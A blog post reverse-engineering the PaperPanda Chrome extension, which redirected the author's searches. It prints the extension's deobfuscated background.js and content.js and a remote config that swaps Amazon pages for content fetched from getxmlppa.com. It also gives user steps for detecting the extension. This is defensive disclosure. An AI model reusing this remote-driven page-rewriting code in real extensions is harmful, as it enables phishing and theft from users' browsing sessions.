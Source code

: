 ```yaml
---
title: PandaPaper turns malicious
subtitle: Chrome extension modifies HTML and tries to hide it
author: maave
type: post
draft: true
date: 2025-01-28
categories:
  - Projects
tags:
    - Chrome
    - extension
    - security
    - reverse engineering
---
```


{{< image src="/uploads/2025/paper-panda-dead.webp" alt="paper panda logo with X for eyes">}}

The "paywalling" of scientific research papers is (an ongoing problem)[] that hinders learning, hinders scientific research, and leaches profit from publicly-funded research. PaperPanda is a Chrome extension to download academic papers. Its intention is to find free links for published papers. 

However what PaperPanda does under-the-hood tells another story. I've unearthed malicious code in PaperPanda's Chrome extension and attempts to hide said malicious activity. This extension tried to modify my Amazon pages and it is clearly malicious - possibly even a phisher or credit-card stealer. If you have this extension *UNINSTALL IT*. In this post I'll explain how this extension is malicious and how it hides that behavior.

<!--more-->

## Strange redirect

This morning I was just browsing the internet with Google Chrome. The regular - procrastinating on StackExchange Hot Network Questions - and I came across an old-English word I've never seen. So I highlighted the word, right clicked, and selected "Search Google for _____". Instead of going to Google, my search went to Yahoo. Huh? I checked the history and found a very suspicious domain: `search-yahoo-now.com`. My search was hijacked. Sound the alarm, we have a breach!

`https://search-yahoo-now.com/?guid=877e15a82fa0a426bfd4ce9a6d96625e4&ext=9&domain=google.com&cid=html&rdd=15&q=iwur%C3%B0ge`

I searched this domain on Google and found only one useful result: a reddit post that insinuated that PaperPanda was responsible. After checking the extension's recent reviews I saw multiple complaints about this. Case closed? Hell no, I need to know the extent of this hack. I'm going to rip this app apart, get proper evidence, and then lay blame.

## Extension investigation

Going into my Chrome profile folder, I searched the contents of all my extensions looking for something. I tried searching for this string. I couldn't find any instance of it, not in plaintext or base64 encoded (a common obfuscation technique). Unfortunately I have too many installed and can't audit the code for every single one.

Since I had a tip, but not proof, that it was PaperPanda, I did an in-depth review of the code. Chrome extensions are made with HTML and Javascript and hosted in the app data folder.

`C:\Users\Maave\AppData\Local\Google\Chrome\User Data\Default\Extensions`

PaperPanda's extension ID is `ggjlkinaanncojaippgbndimlhcdlohf` and the malicious version is `2.1.6`.

`C:\Users\Maave\AppData\Local\Google\Chrome\User Data\Default\Extensions\ggjlkinaanncojaippgbndimlhcdlohf\2.1.6_0`

Fortunately, viewing the code for a Chrome extension is easy and there aren't too many files. Unfortunately the code is "minified" which compacts the code and replaces function and variable names. I used Notepad++ with the plugin JSTools for formatting. A Javascript formatter will make it readable but the single-letter names are still difficult.

### Main files

`content.js` calls `background.js` which fetches a config from an external website `getxmlppa.com`. There are two endpoints, "config.php" and "install.php". The "install" endpoint appears unused and the endpoint returns nothing. The "config" is used directly by the extension and returns a JSON object.

#### File contents

<details>
  <summary>background.js</summary>

```
(function () {
    "use strict";
    const o = "https://getxmlppa.com/";
    async function i(n = !1) {
        const c = `${o}config.php?` + Date.now(), {
            config: t,
            configTimestamp: e
        } = await chrome.storage.local.get(["configTimestamp", "config"]);
        if (!n && Date.now() - (e || 0) < 3e5)
            return t;
        const a = await fetch(c).then(s => s.json());
        return chrome.storage.local.set({
            config: a,
            configTimestamp: Date.now()
        }),
        a
    }
    i(!0),
    chrome.runtime.onMessage.addListener((n, c, t) => {
        if (n === "get-config")
            return i().then(e => t(e)), !0
    }),
    chrome.runtime.onInstalled.addListener(function (n) {
        n.reason === "install" && fetch(`${o}install.php`)
    })
})();
```
</details>

<details>
  <summary>content.js</summary>

```
(function () {
    "use strict";
    let f = l();
    async function l() {
        return await chrome.runtime.sendMessage("get-config")
    }
    async function m() {
        document.location.hostname;
        var o = document.documentElement.innerHTML;
        function a(t, e) {
            if (!e || e === e) {
                var n = t.exec(o);
                if (n && n.length > 1)
                    return n[1]
            }
            return !1
        }
        function s() {
            var t,
            e = ["citation_doi", "doi", "dc.doi", "dc.identifier", "dc.identifier.doi", "bepress_citation_doi", "rft_id", "dcsext.wt_doi"],
            n = document.getElementsByTagName("meta");
            return Array.prototype.forEach.call(n, function (r) {
                if (r.name && !(e.indexOf(r.name.toLowerCase()) < 0) && !(r.scheme && r.scheme.toLowerCase() !== "doi")) {
                    var c = r.content.replace("doi:", "").replace(/https?:\/\/(www\.)?doi\.org\//i, "").trim();
                    c.indexOf("10.") === 0 && (t = c)
                }
            }),
            t ? (console.log("found a DOI from a meta tag: " + t), t) : null
        }
        async function i() {
            for (var t = (await f).p, e = 0; e < t.length; e++) {
                var n = t[e],
                r = a(new RegExp(n.regex), n.host);
                if (r)
                    return r
            }
            return null
        }
        async function d() {
            for (var t = [s, i], e = 0; e < t.length; e++) {
                var n = await t[e]();
                if (n)
                    return n
            }
            return null
        }
        var u = await d();
        return u
    }
    function g(o) {
        if (document.readyState !== "loading") {
            o();
            return
        }
        document.addEventListener("DOMContentLoaded", o)
    }
    function p(o) {
        return o.replace(/{[\w.]+}/, a => {
            const i = a.substr(1, a.length - 2).split(".").reduce((d, u) => d[u], window);
            return encodeURIComponent(i)
        })
    }
    const v = document.location + "";
    g(async() => {
        const o = (await f).s;
        function a() {
            for (const i of o)
                new RegExp(i.pattern, "gi").test(v) && [...document.querySelectorAll(i.selector)].filter(e => !e.hasAttribute("skip-element")).forEach(e => {
                    const n = e.style.display;
                    e.style.display = "none",
                    e.setAttribute("skip-element", !0),
                    fetch(p(i.url)).then(r => r.text()).then(r => {
                        const c = r.trim();
                        c && (e[i.attr] = c)
                    }).catch(() => {}).then(() => e.style.display = n)
                })
        }
        a(),
        new MutationObserver(() => a()).observe(document.body, {
            childList: !0,
            subtree: !0
        })
    }),
    chrome.runtime.onMessage.addListener((o, a, s) => {
        if (o === "get-doi")
            return m().then(i => s(i)), !0
    })
})();
```
</details>

<details>
  <summary>response from config.php aka config.json</summary>

```
{
  "p": [
    {
      "regex": "\"doi\":\"([^\"]+)\"",
      "host": "ieeexplore.ieee.org"
    },
    {
      "regex": "SDM.doi\\s*=\\s*'([^']+)'",
      "host": "sciencedirect.com"
    },
    {
      "regex": "href=\"/doi/(10\\..+?)\"",
      "host": "psycnet.apa.org"
    },
    {
      "regex": "https?:\\/\\/doi.org\\/(10\\.\\d+\\/.*)",
      "host": "cairn.info"
    },
    {
      "regex": "article:article:(10\\.\\d+[^;]*)",
      "host": "inderscienceonline.com"
    }
  ],
  "s": [
    {
      "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
      "selector": "html",
      "attr": "innerHTML",
      "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
    },
    {
      "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
      "selector": "head",
      "attr": "innerHTML",
      "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
    },
    {
      "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
      "selector": "body",
      "attr": "innerHTML",
      "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
    }
  ]
}
```
</details>

### Code breakdown

background.js contains code to fetch a JSON config from a remote website. The first thing I did was check the endpoints. I visited the url `https://getxmlppa.com/config.php` directly without any HTTP parameters. This config endpoint returned different information the first and second time I queried it. My original response is posted above, formatted for easier reading, no changes were made besides the whitespace formatting.

The first result included _regex to match Amazon URLs_ in the "s" array. When I queried it a second time, __the "s" array was empty__. Wow. We already found suspicious activity just by visiting a link. I cannot replicate this because the app loads content dynamically. The website is **INTENTIONALLY HIDING** its activity. I think I got lucky and I fetched the cached version on the first attempt.

I'm off to a good start. I was expecting Google or Yahoo links but I got Amazon. PaperPanda should not be touching Amazon URLs _ever_. I also found a new endpoint, `ama.php`

Let's walk through the code to determine what's it doing with this config. The suspect code is in content.js in the areas `g(o)`, `p(o)`, and the `g(async() => {` functions. The function `g(o)` creates a listener for page loading, then executes the async() function that was passed to it.

In this config JSON, the "p" array is used legitimately by the extension when you click the extension and "download this paper". "s" array is suspect and is used on page-load to replaces part of the HTML contents. I'll explain what the JS code is doing:

1. add an event listener for DOMContentLoaded, to run after the page loads
2. check if the current URL matches a grep pattern (var "pattern" from array "s") and check if element has "skip-element" attribute
3. select HTML elements (using var "selector")
4. hide element
5. add "skip-element" attribute to avoid reprocessing
6. fetch remote content (from var "url")
7. replace one of the element's attributes (var "attr") with new content
8. unhide element

This makes the behavior entirely dependent on the config. In my config it's attempting to replace the entire HTML document for Amazon URLs

```
{
  "pattern": "^https?:\\/\\/(www\\.)?amazon\\.[a-z]{2,3}(\\.[a-z]{2})?\\/.*",
  "selector": "html",
  "attr": "innerHTML",
  "url": "https://getxmlppa.com/ama.php?p=amazon&u={location.href}"
},
```

recreating the steps with this config would cause this to happen:

1. add event listener DOMContentLoaded
2. check if URL matches amazon
3. select HTML element "html" (*the entire page*)
4. hide element
5. add "skip-element" attribute to avoid reprocessing
6. fetch content from `https://getxmlppa.com/ama.php?p=amazon&u={location.href}`
7. replace attribute "innerHTML" (*all of the page's code*) with content fetched
8. unhide element

This is malicious. This is trying to replace the entirety of my Amazon pages with its own content. PaperPanda has no reason to touch Amazon links. Without that config, this piece of code looks benign. It could be explained away by saying the code is intended to place URLs (it could, theoretically, replace the "url" attribute in anchor elements). With this config it's clear that this extension targeting websites outside its intended use. It is **malicious** and **trying to hide its behavior by changing configs**.

The endpoint "ama.php" responds with a 200 response but doesn't return any data, even with the params filled in. I'm unsure if the endpoint is nonfunctional, or if it was intentionally disabled when the config was changed. So the real goal of this content replacement is unknown. This app could have been stealing logins, credit card info, etc. It could've replaced affiliate information with its own like the recent Honey shopping extension scam. It could've done anything with any page. This is not accidental and not a result of some kind of library-inclusion-attack. PaperPanda targeted Amazon links and tried to _replace the entire HTML content_.

## Check yourself

If you have a page which you suspect of being hijacked, don't reload yet. Right click, inspect, then Ctrl+F and search for "skip-element". This attribute is not standard. If "skip-element" is anywhere in your HTML elements it's because of PaperPanda.

Get the stored config data from the Chrome console. On any page, open the PaperPanda extension, right click on it, inspect. This should be inspecting the extension, the DevTools window that pops up should be titled `chrome-extension://ggjlkinaanncojaippgbndimlhcdlohf/popup.html` Then in the Console tab of DevTools type `chrome.storage.local.get(console.log)` to output the local storage for that app. In mine it's already updated so the "s" array is empty.

Another way to get to the extension data is in `chrome://extensions` with Developer Mode enabled. Scroll to PaperPanda, click the link to "service worker" which will open the DevTools. This DevTools window will open right to the Console tab and won't have a special title.

View the extension code yourself from chrome profile data. For me that's in: `C:\Users\UserName\AppData\Local\Google\Chrome\User Data\Profile 1\Extensions\ggjlkinaanncojaippgbndimlhcdlohf` because I have multiple profiles. If you have a single profile in Chrome then it would be in the "Default" folder: `C:\Users\UserName\AppData\Local\Google\Chrome\User Data\Default\Extensions\ggjlkinaanncojaippgbndimlhcdlohf`. The Javascript files have been minified so it needs to be formatted for reading. I used the Notepad++ plugin JSTool to format it. There are also plenty of JS formatters online. But the variable names and function names are still single letters so it's hard to follow.


## Conclusion

PaperPanda is hijacking web contents. I didn't find a Yahoo search redirect but instead I found an arbitrary page re-writer driven by a config that changes every time you load it. They attempt to evade detection by moving the payload to an external page. This garbage plugin has been installed on my Chrome for months and I only noticed because they performed a blatant redirect. Who knows what damage it caused, what information it stole, because it could have modified any website to have any content.

Uninstall this extension. Report it for abuse. _Distrust extensions that ask for permission to all websites_.
